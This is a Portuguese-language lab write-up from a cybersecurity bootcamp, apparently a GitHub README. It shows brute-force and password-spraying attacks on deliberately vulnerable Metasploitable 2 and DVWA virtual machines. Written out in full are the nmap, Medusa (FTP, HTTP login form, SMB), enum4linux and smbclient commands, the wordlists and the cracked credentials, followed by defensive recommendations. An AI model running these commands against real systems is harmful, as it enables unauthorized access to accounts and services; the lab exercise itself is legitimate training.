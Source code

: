 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2<br>
<br>
Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.16.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)<br>
IP Kali Linux: 192.168.16.4<br>
IP Metasploitable 2: 192.168.16.5<br>
<br>
ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs<br>Comando: ping -c 4 192.168.16.5 
<br>
1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95<br>Objetivo: identificar porta FTP aberta<br>Comando: nmap -sV -p 21,22,80,445,139 192.168.16.5
<br>
<br>
Portas abertas:<br>
21 - serviço: FTP - versão: vsftpd 2.3.4<br>
22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)<br>
80 - serviço: HTTP - versão: Apach httpd 2.2.8<br>
139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
<br>
Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 
<br>
2 etapa: ataque brute force | ferramenta usada: Medusa v2.3
<br>
<br>
Criação de wordlists:
<br>
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
<br>
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 
<br>
Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123<br>
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt<br>
<br>
Comando brute force: medusa -h 192.168.16.5 -U usernames.txt -P pass.txt -M ftp -t 10<br>
Resultado - usuario: msfadmin | senha: msfadmin<br>
<br>
- Brute force em formulário de login em sistema web (DVWA) -<br>
<br>
Comando:<br>
medusa -h 192.168.16.5 -U usernames.txt -P pass.txt -M http \<br>
-m PAGE:'/dvwa/login.php' \<br>
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \<br>
-m 'FAIL=Login failed' -t 10<br>
<br>
Resultado - usuario: admin | senha: password <br>
<br>
- Ataque em cadeia, enumeração smb + password spraying -<br>
<br>
Enumeração de usuários usando Enum4Linux:<br>
Comando: enum4linux -a 192.168.16.5 | tee enum4_output.txt <br>
<br>
Password spraying usando Medusa:<br>
Comando: medusa -h 192.168.16.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50<br>
<br>
Resultado - usuario: msfadmin | senha: msfadmin <br>
<br>
Verificando acesso ao smb:<br>
Comando: smbclient -L //192.168.16.5 -U msfadmin <br>
<br>
- Vulnerabilidades: senhas fracas e iguais ao campo user<br>
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede.<br>
- Recomendações para criação de senhas:<br>
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.<br>





